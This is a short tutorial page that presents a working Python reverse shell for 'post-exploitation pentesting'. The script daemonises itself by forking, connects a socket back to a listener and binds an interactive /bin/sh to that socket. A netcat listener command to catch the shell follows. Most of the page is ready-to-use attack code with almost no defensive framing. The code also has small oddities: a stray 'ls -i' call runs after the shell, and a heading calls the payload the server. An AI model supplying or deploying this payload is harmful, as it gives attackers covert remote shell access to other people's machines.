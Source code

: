 ```yaml
---
title: Reverse Shell with Socket
tags: ['Python','Reverse Shell' ]
---
```


A reverse shell is an action by which a user gains access to the shell of an external server. For example, if you are working in a post-exploitation pentesting phase and would like to create a script that is invoked in certain scenarios that will automatically get a shell to access the filesystem of another machine, we could build our own reverse shell in Python.

### Step 1: Set Up the Server

```python title="reverse_shell_python.py"
import socket
import subprocess
import os
socket_handler = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    if os.fork() > 0:
        os._exit(0)
except OSError as error:
    print('Error in fork process: %d (%s)' % (error.errno, error.strerror))
    pid = os.fork()
    if pid > 0:
        print('Fork Not Valid!')
socket_handler.connect(("127.0.0.1", 45679))
os.dup2(socket_handler.fileno(),0)
os.dup2(socket_handler.fileno(),1)
os.dup2(socket_handler.fileno(),2)
shell_remote = subprocess.call(["/bin/sh", "-i"])
list_files = subprocess.call(["/bin/ls", "-i"])
```

### Step 2: Test the Reverse Shell

```bash
$ nc -lvp 45679
```

```bash
ls
```

